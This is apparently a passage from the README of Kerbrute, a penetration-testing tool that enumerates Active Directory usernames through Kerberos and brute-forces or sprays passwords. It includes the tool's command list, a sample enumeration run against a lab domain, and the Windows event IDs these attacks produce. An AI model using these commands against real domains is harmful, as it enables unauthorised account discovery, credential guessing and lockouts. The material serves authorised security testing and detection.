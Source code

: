 ```
  bruteuser     Bruteforce a single user's password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit

Flags:
      --dc string       The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
  -d, --domain string   The full domain to use (e.g. contoso.com)
  -h, --help            help for kerbrute
  -o, --output string   File to write logs to. Optional.
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors

Use "kerbrute [command] --help" for more information about a command.
```

### User Enumeration
To enumerate usernames, Kerbrute sends TGT requests with no pre-authentication. If the KDC responds with a `PRINCIPAL UNKNOWN` error, the username does not exist. However, if the KDC prompts for pre-authentication, we know the username exists and we move on. This does not cause any login failures so it will not lock out any accounts. This generates a Windows event ID [4768](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) if Kerberos logging is enabled.

```
root@kali:~# ./kerbrute_linux_amd64 userenum -d lab.ropnop.com usernames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (43f9ca1) - 03/06/19 - Ronnie Flathers @ropnop

2019/03/06 21:28:04 >  Using KDC(s):
2019/03/06 21:28:04 >   pdc01.lab.ropnop.com:88

2019/03/06 21:28:04 >  [+] VALID USERNAME:       amata@lab.ropnop.com
2019/03/06 21:28:04 >  [+] VALID USERNAME:       thoffman@lab.ropnop.com
2019/03/06 21:28:04 >  Done! Tested 1001 usernames (2 valid) in 0.425 seconds
```

### Password Spray
With `passwordwpray`, Kerbrute will perform a horizontal brute force attack against a list of domain users. This is useful for testing one or two common passwords when you have a large list of users. WARNING: this does will increment the failed login count and lock out accounts. This will generate both event IDs [4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) and [4771 - Kerberos pre-authentication failed](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)
